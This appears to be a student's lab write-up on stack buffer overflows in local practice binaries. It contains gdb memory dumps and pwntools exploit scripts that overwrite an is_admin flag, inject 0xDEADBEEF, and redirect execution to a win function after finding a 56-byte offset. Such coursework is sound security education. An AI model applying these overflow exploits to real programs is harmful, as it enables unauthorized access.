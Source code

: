 # Laborator 2

## Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

## Solution to [Q3]:
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Solution to [Q4]:
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p32(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

```
[+] Starting local process './bin/ex2': pid 962
b'AAAAAAAA\xef\xbe\xad\xde'
[*] Switching to interactive mode
```

```
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
Access granted!
```

## Solution to [Q5]:
```python
from pwn import *
import os

context.binary = './bin/ex3'
pattern = cyclic(100)
p = process('./bin/ex3')
p.sendline(pattern)
p.wait()
core_path = f"/tmp/core.{os.path.basename(context.binary.path)}.{p.pid}.11"
core = Core(core_path)
crash_addr = core.fault_addr

offset = cyclic_find(crash_addr)
print("Offset: ", offset)
```
```
Offset:  56
```

```
$ gdb ./bin/ex3
pwndbg> p win
$1 = {int ()} 0x401156 <win>
```

```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```